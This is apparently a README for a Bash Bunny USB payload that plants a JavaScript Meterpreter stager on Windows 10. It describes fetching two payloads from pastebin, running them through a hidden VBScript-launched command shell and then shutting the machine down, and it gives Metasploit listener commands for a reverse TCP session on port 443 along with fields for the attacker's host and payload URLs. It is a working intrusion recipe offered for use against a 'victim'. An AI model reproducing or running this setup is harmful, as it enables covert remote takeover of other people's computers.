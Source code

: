 JavaScript Meterpreter Stager Win x86_64

(Author: SubINclS | Version: Version 0.1 | Target: Windows 10)

Description:

  - Tested successful on Win10
  - Modified from following like:
    - https://github.com/Cn33liz/JSMeter/blob/master/JSMeter.js
      - Run js on target machine, cscript JSMeter.js
  - USB HID STORAGE Attck
    - Attempts HTTP(s) download of Two (2) additional payloads.
  - These files coinsist of:
    - BB-Meterpreter-Winx64.js -> Actual bytecode of Meterpreter Stager payload
    - inv.vbs -> creates hidden command terminal to execute commands
  - Attempts to execute the malicious payload in an automated fashion from hidden cmd prompts

Script Logic:

  - STAGE1():
    - if payload does not exist on target:
      - if inet connection:
        - Attempts HTTPS connection to pastebin
          - Grabs both payloads and save to %temp%
      - else:
        - Opens a cmd prompt, under current users context
          - Echo contents to two files:
            - BB-Meterpreter_winx64.js
            - inv.vbs
  - STAGE2():
    - Executes hidden cmdshell via inv.vbs, launching payload
  - STAGE3():
    - Shutdown 0

Configuration:

  - Listener:
    - use exploit/multi/handler
    - set PAYLOAD windows/(x64/|)meterpreter/reverse_tcp
    - set PAYLOAD windows/meterpreter/reverse_tcp
    - set LHOST 0.0.0.0
    - set LPORT 443
    - set EnableUnicodeEncoding true
    - set EnableStageEncoding true
    - set ExitOnSession false
    - exploit -j
  - BashBunny:
    - Edit JSRevMeter replacing the following:
      - RHOST =>  Remote Listening Host
      - RPORT =>  Remote Listening Port
      - FILE1 =>  Payload file1 URL, ex: http://t.co/43rg67
      - FILE2 =>  Payload file1 URL, ex: http://t.co/8ry8h0
    - Upload monilithic script to your BB

Status:

  - LED	  =>  Status/PHASE
  - Green	=>  Stage1/EXECUTING
  - Red	  =>  Stage2/EXECUTING
  - Blue  =>  Stage3/SHUTDOWN
  - OFF   =>  Remove Device from victim
